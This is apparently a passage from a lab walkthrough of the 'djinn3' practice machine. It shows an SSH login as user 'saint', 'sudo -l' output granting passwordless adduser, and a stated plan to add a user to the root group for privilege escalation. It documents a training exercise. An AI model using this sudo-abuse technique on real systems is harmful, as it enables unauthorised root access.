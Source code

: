 ```
┌──(hhhharshil㉿kali)-[~/Desktop/djinn3]
└─$ ssh saint@192.168.106.102  
The authenticity of host '192.168.106.102 (192.168.106.102)' can't be established.
ECDSA key fingerprint is SHA256:3XUVJT+K/E3WTM90vv1SPpznUZKf/dLXVAtrfZioQlM.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.106.102' (ECDSA) to the list of known hosts.
Enter passphrase for key '/home/hhhharshil/.ssh/id_rsa': 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun Jan  2 07:49:08 IST 2022

  System load:  0.0               Processes:           157
  Usage of /:   38.1% of 9.78GB   Users logged in:     0
  Memory usage: 48%               IP address for eth0: 192.168.106.102
  Swap usage:   1%


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

134 packages can be updated.
93 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings



The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

saint@djinn3:~$ sudo -l
Matching Defaults entries for saint on djinn3:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User saint may run the following commands on djinn3:
    (root) NOPASSWD: /usr/sbin/adduser, !/usr/sbin/adduser * sudo, !/usr/sbin/adduser * admin
```

We were able to successfully login as saint. sudo -l reveals we can addusers to the machine. We will make a test user and add it to the root group specified by -gid=0
